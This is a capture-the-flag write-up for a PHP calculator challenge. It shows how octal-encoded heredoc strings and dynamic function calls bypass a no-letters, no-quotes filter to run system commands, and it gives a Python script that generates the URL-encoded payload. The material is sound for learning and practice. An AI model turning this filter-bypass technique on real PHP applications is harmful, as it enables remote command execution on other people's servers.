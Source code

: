 ```yaml
---
title: simple calculator
date: 2024-05-27T14:51:02+03:00
description: Writeup for simple calculator [L3akCTF]
author: Hust
tags:
- web
- command injection
draft: false
---
```


## Challenge Description

Unveil PHP Secrets.

## Intuition

The challenge involves a PHP script that evaluates mathematical expressions from a URL parameter. The script has input validation using a regex to prevent the use of alphabetic characters and quotes. By leveraging PHP's handling of heredoc syntax and octal encoding, we can craft an input that bypasses these restrictions and executes the desired command to retrieve the flag.

## Solution

1. **Octal characters**

    If a string is enclosed in double quotes (or heredocs), PHP will interpret octal characters as regular characters.

    e.g. `"\101" === "A"`

2. **Heredocs**

    Since we cannot have quotes, a way to delimit strings is the heredoc syntax: `<<<`. After this operator, an identifier is provided, then a newline. The string itself follows, and then the same identifier again to close the quotation.

    By reading the documentation for PHP Heredoc:

    [PHP Heredoc Documentation](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc)

    "Also, the closing identifier must follow the same naming rules as any other label in PHP: it must contain only alphanumeric characters and underscores, and must start with a non-digit character or underscore."

    We learn that the identifier must start with a letter or underscore, and since we cannot have letters due to the regex validation, the only option is the underscore. So in this stage the payload will look like this:

    ```php
    <<<_
    payload_in_octal
    _
    ```

3. **Executing functions**

    Since our input must be inside quotes (or heredocs) to be converted from octals, we cannot execute functions in the regular way `func(args)`. Another way to execute functions in PHP is `("func")("args")` so we just need to wrap our payload in parentheses like this:

    ```php
    (<<<_ func-name-in-octal _)(<<<_ args-in-octal _)
    ```

    So we can do something like:

    ```php
    (<<<_ system_in_octal _)(<<<_ ls_in_octal _)
    ```

    Also, we can encode the payload to send it directly.

    Here is a Python script to automate all these steps:

    ```python
    import urllib.parse

    p1 = "system"
    p2 = 'cat flag*.txt'

    final_array = []

    final_array.append("(<<<_\n")

    for letter in p1:
        final_array.append(f"\\{oct(ord(letter))[2:]}")

    final_array.append("\n_)")

    final_array.append("(<<<_\n")

    for letter in p2:
        final_array.append(f"\\{oct(ord(letter))[2:]}")

    final_array.append("\n_)")

    cmd = "".join(final_array)

    # URL encoding the command
    encoded_cmd = urllib.parse.quote(cmd)

    print(encoded_cmd)
    ```

### Flag

`L3AK{PhP_Web_Ch@ll3ng3}`

## References

[PHP Heredoc Documentation](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc)
